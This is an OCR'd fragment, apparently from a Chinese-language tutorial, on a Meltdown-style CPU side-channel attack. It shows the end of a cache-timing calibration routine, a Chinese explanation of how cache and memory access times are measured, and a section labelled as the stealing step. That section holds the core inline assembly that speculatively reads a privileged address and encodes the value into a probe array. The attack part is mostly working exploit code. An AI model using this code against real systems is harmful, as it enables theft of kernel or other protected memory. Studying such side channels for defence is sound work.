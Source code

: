 ```

	printf("cached = %ld, uncached = %ld, threshold %d\n",

	       cached, uncached, cache_hit_threshold);

}
```

上述代码测试了访问cache和内存的时间，作为判断的标准。通过两次访问同一数据，导致第二次数据在cache中，从而测出cache的访问时间；通过将数据清出cache再访问，测出内存的访问时间。多次测量求平均值

* 2. 执行（窃取）部分

```
asm volatile (

		"1:\n\t"



		".rept 300\n\t"

		"add $0x141, %%rax\n\t"

		".endr\n\t"



		"movzx (%[addr]), %%eax\n\t"

		"shl $12, %%rax\n\t"

		"jz 1b\n\t"

		"movzx (%[target], %%rax, 1), %%rbx\n"



		"stopspeculate: \n\t"

		"nop\n\t"

		:

		: [target] "r" (target_array),

		  [addr] "r" (addr)

		: "rax", "rbx"

	);
  
  ```
  